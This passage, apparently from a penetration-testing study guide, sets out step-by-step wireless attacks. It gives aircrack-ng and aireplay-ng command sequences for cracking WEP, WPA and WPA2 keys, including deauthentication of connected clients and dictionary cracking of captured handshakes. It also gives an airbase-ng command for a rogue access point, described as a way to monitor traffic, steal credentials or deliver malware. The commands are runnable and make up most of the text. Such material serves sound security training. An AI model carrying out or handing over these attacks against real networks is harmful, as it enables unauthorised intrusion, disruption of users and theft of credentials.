 
### 3. Perform Wireless Attacks

#### 3.1 Crack WEP using Aircrack-ng
**Steps**:
- `airmon-ng start wlan0`
- `airodump-ng`
- `airodump-ng –w "filename" -c "channel name"`
- `aireplay-ng -1 0 -a (bssid) -h (mac of your card) -e (essid) (interface)`
- `aireplay-ng -3 –b "bssid" -h "mac address"`
- `aireplay-ng --deauth 3 -a MAC_AP -c MAC_Client mon0`
- `aircrack-ng -b "filename.cap"`

#### 3.2 Crack WEP using WifiPhisher
[GitHub - wifiphisher/wifiphisher: The Rogue Access Point Framework](https://github.com/wifiphisher/wifiphisher)

#### 3.3 Crack WPA with FERN cracker
**Steps**:
- `airmon-ng start wlan0`
- `airodump-ng wlan0mon`
- `airodump-ng -c <channel> --bssid <AP_MAC> -w capture wlan0mon`
- `aireplay-ng -0 2 -a <AP_MAC> -c <Client_MAC> wlan0mon`
- `aircrack-ng -w /path/to/wordlist.txt capture-01.cap`

#### 3.4 Crack WPA 2 with Aircrack
WPA2 is a strong security upgrade from WPA, using AES-based encryption (CCMP). It offers both Personal (password-based) and Enterprise (server-based) modes. Despite its strength, it can still be cracked, typically by capturing the network handshake and performing a dictionary or brute-force attack on the password.

In this task, we will use the Aircrack-ng suite to crack a WPA2 network.
- `aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt '/home/attacker/Desktop/Sample Captures/WPA2crack-01.cap`
  - `-a` is the technique used to crack the handshake, 2=WPA technique.
  - `-b` refers to bssid; replace with the BSSID of the target router.
  - `-w` stands for wordlist; provide the path to a wordlist.
<img width="1024" height="768" alt="image" src="https://github.com/user-attachments/assets/d7ae2608-52de-440a-879c-6c1afa2e91c5" />
The result appears, showing the WPA handshake packet captured with airodump-ng. The target access point’s password is cracked and displayed in plain text next to the message KEY FOUND!, as shown in the screenshot.
<img width="1024" height="768" alt="image" src="https://github.com/user-attachments/assets/de6a4063-e85b-44b8-93bd-c6ddc12b82f8" />
[Hacking Wifi Networks with Aircrack suite | The Easiest Way](https://hackingplayground.blogspot.com/2022/07/hacking-wifi-networks-with-aircrack.html)    
You can also use other tools such as hashcat (https://hashcat.net), Portable Penetrator (https://www.secpoint.com), WepCrackGui (https://sourceforge.net) to crack WEP/WPA/WPA2 encryption.

#### 3.5 Create a Rogue access Point
A malicious wireless access point that mimics a legitimate one. The goal is to trick users into connecting to it, allowing you to monitor their traffic, steal credentials, or deliver malware.
- `airbase-ng -a [Target_AP_MAC] --essid "Trusted Network Name" -c 6 wlan0mon`

---
---
